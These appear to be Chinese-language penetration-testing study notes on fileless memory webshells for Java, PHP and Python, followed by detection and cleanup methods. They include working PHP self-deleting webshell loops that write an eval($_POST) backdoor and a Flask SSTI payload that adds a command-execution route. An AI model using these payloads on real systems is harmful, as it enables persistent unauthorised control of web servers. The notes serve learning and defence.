 当注入文件木马后，如冰蝎，哥斯拉，还可以注入内存马MemoryShell，使得权限维持。
也可以利用漏洞注入内存马。
注入内存马后，可以url上执行命令。也可以使用webshell管理工具连接，如冰蝎。


## **webshell内存马特征及原理**
![image-20240506130214713](http://cdn.33129999.xyz/mk_img/image-20240506130214713.png)

所有类型内存马：<https://www.cnblogs.com/lcxblogs/articles/15238924.html>
Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码（根据配置文件注册对象到内存中），不会有文件落地，给检测带来巨大难度。
内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。

## **java内存马**
内存中的对象找不到对应的.class文件中的类型。
java内存马原理：
<https://www.freebuf.com/articles/web/274466.html>
<https://github.com/Getshell/Mshell>

JAVA有不同类型的内存马：
手动上传一般是.jsp文件，访问后注入成内存马。
工具注入的内存马可以任意后缀。
分类：
1、按攻击思路，大致分为：
-Java Instrumentation类（Agent型）
-Servlet-api类（Servlet型、Filter型、Listener型）
-Spring类（Controller型、Interceptor型）
2、按注入的对象分为：tomcat、weblogic、shiro等类型。
![image-20240506131339198](http://cdn.33129999.xyz/mk_img/image-20240506131339198.png)
演示：
1、Servlet-api类（Servlet型、Filter型、Listener型）
2、哥斯拉，冰蝎内存马功能使用


^
## **php内存马**
php内存马也就是php不死马是将不死马启动后删除本身，在内存中执行死循环监听生成木马，使管理员无法删除木马文件。
```
set_time_limit()函数：设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数：删除文件（防止文件落地被检测工具查杀）
file_put_contents函数：将一个字符串写入该文件中
usleep函数：延迟执行当前脚本数微秒，即条件竞争

<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.HH.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while(1){ 
file_put_contents($file,$code);
 usleep(5000); } 
?>

<?php
if (isset($_GET['scsw']) && $_GET['scsw'] === '123321') {
    ignore_user_abort(true);  // 忽略用户中断
    set_time_limit(0);       // 设置脚本执行时间无限制

    // 删除当前脚本文件
    unlink(__FILE__);

    // 定义要写入的文件名和代码
    $file = './.index.php';
    $code = '<?php system("cat /flag"); ?>';

    // 进入无限循环，每隔5毫秒写入一次代码
    while (1) {
        file_put_contents($file, $code);
        usleep(5000);  // 休眠5毫秒
    }
}
?>
```
^
## **python内存马**
借助flask框架的ssti注入传参写入内存马。
```
/?param={{url_for.__globals__[%27__b
uiltins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27
shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_sta
ck.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%
27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack
%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
```
执行命令
```
/shell?cmd=ls
```



^
## **webshell内存马查杀**
内存马情况，常规查杀找不出来。

典型：哥斯拉文件木马getshell后，可以植入.net,php,java内存马。

查杀：
asp.net内存马，检测及查杀工具：上传aspx-memshell-scanner.aspx脚本文件到网站web目录，访问即可检测查杀。
php内存马，常规后门查杀检测后，中间件重启后删除文件即可。

java内存马，重启不行。

1.用河马(主机安装后，使用命令一键检测java，.net的内存马，hmws.exe javascan，找到缓存路径删除重启即可)。
>linux版，专用于Java类内存马检测自动识别包括Tomcat、Weblogic、Jboss环境；Spring等打包环境支持手动指定进程方式，因此第三方Java应用（gitlab，ES）都可以检测；
>Windows版，Java内存马检测，Java6+; OA系统、办公系统；
>.Net内存马，IIS等场景下的.net内存马检测。
>全面覆盖内存马常见场景，可检测冰蝎、哥斯拉等内存马利用工具注入的内存马。

2.对于tomcat，上传tomcat-memshell-scanner.jsp脚本文件到网站web目录，访问即可检测查杀。
可以直接下载源码和kill，如果无法分析，可以下载dump源码后分析是否为木马代码。

3.冰蝎的agent内存马有反查杀，只能重启服务，加固入口。



